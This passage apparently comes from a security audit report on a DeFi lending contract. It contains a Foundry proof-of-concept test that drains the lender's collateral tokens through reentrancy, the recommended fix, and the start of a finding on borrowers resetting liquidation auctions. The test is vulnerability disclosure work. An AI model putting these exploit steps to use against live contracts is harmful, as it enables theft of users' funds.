 ```solidity
    }

}
```
Here are the tests that can be added to `Lender.t.sol` to illustrate the steps of an attacker:
```solidity
function test_exploit7() public {
	address attacker = address(0x5);
	// Setup
	collateralToken.transfer(address(lender), 10_000*10**18);
	collateralToken.transfer(address(attacker), 1_000*10**18 + 1); 

	// Before the exploit
	assertEq(collateralToken.balanceOf(address(lender)), 10_000*10**18);  // Lender contract has 10_000 collateralToken
	assertEq(collateralToken.balanceOf(address(attacker)), 1_000*10**18 + 1); // Attacker has 1_000 collateralToken

	// Exploit starts here
	vm.startPrank(attacker); // Attacker wants to drain all collateralTokens from the contract        
	Exploit7 attackContract = new Exploit7(lender, address(collateralToken));
	collateralToken.transfer(address(attackContract), 1_000*10**18 + 1);
	attackContract.attack(address(collateralToken));

	// After the exploit
	assertEq(collateralToken.balanceOf(address(lender)), 1);               // Lender contract has been drained (1 wei left)
	assertEq(collateralToken.balanceOf(address(attacker)), 11_000*10**18); // Attacker has stolen all the 10_000 collateralToken
}
```

## Tools Used
Manual review + Foundry

## Recommendations
Follow the _Checks - Effect - Interactions_ (CEI) pattern by deleting the loan `loans[loanId]` before transfering the funds AND use nonReentrant modifiers


# [H-05] - Borrower can reset auction to not get liquidated
## Summary
Any ongoing auction is reset if the borrower calls the `refinance` function. Thus, a borrower can stop a refinancing auction to prevent him from being liquidated.

## Vulnerability Details
When calling the `refinance` function the `loans[loanId].auctionStartTimestamp` is reset to `type(uint256).max` which resets any ongoing auction.
